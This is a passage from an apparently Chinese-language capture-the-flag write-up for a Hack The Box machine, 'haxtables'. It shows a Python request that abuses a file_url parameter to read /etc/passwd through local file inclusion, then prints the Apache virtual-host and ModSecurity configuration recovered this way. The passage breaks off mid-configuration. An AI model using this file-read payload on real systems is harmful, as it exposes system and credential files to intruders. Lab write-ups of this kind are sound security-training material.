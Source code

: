 ### Web枚举

#### 任意文件读取

在api中看到一个

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/95f397f3-9e24-d6ec-6c23-1202772a91f9.png)

尝试一下就可以发现，这里存在LFI，把http改file协议

```python3
import requests

json_data = {
    'action': 'str2hex',
    'file_url' : 'file:///etc/passwd'

}

response = requests.post('http://api.haxtables.htb/v3/tools/string/index.php', json=json_data)
print(response.text)
```

decode就可以得到明文数据

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/5676cafb-ea49-5d62-daa1-afca442dad0c.png)

读apache默认配置

```xml
<VirtualHost *:80>
	ServerName haxtables.htb
	ServerAdmin webmaster@localhost
	DocumentRoot /var/www/html


	ErrorLog ${APACHE_LOG_DIR}/error.log
	CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>


<VirtualHost *:80>
	ServerName api.haxtables.htb
	ServerAdmin webmaster@localhost
	DocumentRoot /var/www/api
	ErrorLog ${APACHE_LOG_DIR}/error.log
	CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>

<VirtualHost *:80>
        ServerName image.haxtables.htb
        ServerAdmin webmaster@localhost
        
	DocumentRoot /var/www/image

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
	#SecRuleEngine On

	<LocationMatch />
  		SecAction initcol:ip=%{REMOTE_ADDR},pass,nolog,id:'200001'
  		SecAction "phase:5,deprecatevar:ip.somepathcounter=1/1,pass,nolog,id:'200002'"
  		SecRule IP:SOMEPATHCOUNTER "@gt 5" "phase:2,pause:300,deny,status:509,setenv:RATELIMITED,skip:1,nolog,id:'200003'"
  		SecAction "phase:2,pass,setvar:ip.somepathcounter=+1,nolog,id:'200004'"
```